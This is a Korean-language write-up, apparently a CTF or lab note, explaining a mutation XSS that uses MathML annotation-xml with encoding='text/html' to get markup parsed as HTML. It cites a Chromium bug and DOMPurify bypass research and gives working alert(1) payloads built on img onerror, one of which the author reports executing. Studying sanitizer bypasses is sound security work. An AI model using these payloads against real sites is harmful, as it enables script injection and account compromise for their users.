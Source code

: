 위 태그들을 활용하여 XSS 공격을 수행하는 것 같아 `MathML XSS` 사례들을 찾아보았다.     

```html
<math><annotation-xml encoding="text/html"><style>&lt;/style&gt;&lt;img src=x onerror=alert(1)&gt;</style></math>

<math><annotation-xml encoding="text/html"><script>&lt;/script&gt;&lt;img src=x onerror=alert(1)&gt;</script></math>
```
https://bugs.chromium.org/p/chromium/issues/detail?id=805924         
    
MathML XSS 취약점 사례가 존재했고, `<annotation-xml>`에 대해 찾아보았다.

https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/

***math annotation-xml: if it has an attribute called encoding whose value is equal to either text/html or application/xhtml+xml***   
    
math annotation-xml 태그를 사용하여 text/html 인코딩 방식을 사용하면 annotation-xml 태그 안에 content가 math namespace가 아닌 html namespace로 인식하게 되는 것이다.   
     
즉, html namespace로 인식된다는 것은 html 코드가 text가 아닌 DOM에 추가된다는 것을 의미한다.   
     
```html
<math><annotation-xml encoding="text/html"><style><img src=x onerror=alert(1)></style></annotation-xml></math>
```  

Payload를 위와 같이 작성해서 실행시켜보니 아래와 같이 `alert(1)`가 잘 실행되었다.     
    
<img src="images/1.PNG" width="700px">    
